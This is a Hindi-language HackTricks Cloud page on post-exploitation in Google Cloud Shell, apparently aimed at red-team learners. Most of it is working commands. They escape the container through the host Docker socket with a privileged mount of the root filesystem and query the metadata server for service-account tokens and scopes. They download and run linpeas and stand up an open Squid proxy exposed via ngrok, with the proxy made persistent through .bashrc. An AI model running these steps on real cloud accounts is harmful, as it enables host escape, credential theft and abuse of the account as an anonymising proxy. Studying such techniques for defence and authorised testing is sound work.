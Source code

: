 # GCP - क्लाउड शैल पोस्ट एक्सप्लोइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके.

</details>
{% endhint %}

## क्लाउड शैल

क्लाउड शैल के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### कंटेनर एस्केप

ध्यान दें कि Google क्लाउड शैल एक कंटेनर के अंदर चलता है, आप **आसानी से मेज़बान के पास भाग सकते हैं** इस तरह: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

यह google द्वारा एक दोष के रूप में नहीं माना जाता है, लेकिन यह आपको उस वातावरण में क्या हो रहा है का एक व्यापक दृश्य प्रदान करता है।

इसके अतिरिक्त, ध्यान दें कि होस्ट से आप एक सेवा खाता टोकन ढूंढ सकते हैं:
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

निम्नलिखित स्कोप के साथ:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

लिनपीएस के साथ मेटाडेटा की जांच करें:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

गिथब का उपयोग करने के बाद [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) सेवा खाते के टोकन के साथ **कोई अनुमति खोजी नहीं गई**...

### प्रॉक्सी के रूप में उसका उपयोग करें

यदि आप अपने गूगल क्लाउड शैल इंस्टेंस को प्रॉक्सी के रूप में उपयोग करना चाहते हैं तो निम्नलिखित कमांड चलाने की आवश्यकता है (या उन्हें .bashrc फ़ाइल में डालें):
```bash
sudo apt install -y squid
```
केवल आपको बताने के लिए, Squid एक http प्रॉक्सी सर्वर है। निम्नलिखित सेटिंग्स के साथ एक **squid.conf** फ़ाइल बनाएं:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
कॉपी करें **squid.conf** फ़ाइल को **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
अंत में स्क्विड सेवा चलाएं:
```bash
sudo service squid start
```
बाहर से प्रॉक्सी को उपलब्ध कराने के लिए ngrok का उपयोग करें:
```bash
./ngrok tcp 3128
```
चलाने के बाद, tcp:// url की कॉपी करें। अगर आप ब्राउज़र से प्रॉक्सी चलाना चाहते हैं तो सुझाव दिया जाता है कि tcp:// हिस्सा और पोर्ट को हटा दें और पोर्ट को अपने ब्राउज़र प्रॉक्सी सेटिंग्स के पोर्ट फ़ील्ड में डालें (squid एक http प्रॉक्सी सर्वर है)।

स्टार्टअप के लिए बेहतर उपयोग के लिए .bashrc फ़ाइल में निम्नलिखित लाइन होनी चाहिए:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
इन निर्देशों को [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) से कॉपी किया गया था। किसी भी प्रकार के सॉफ्टवेयर (डेटाबेस और यहाँ तक कि विंडोज) को क्लाउड शैल में चलाने के लिए अन्य पागल विचारों के लिए उस पेज की जाँच करें।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें** **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
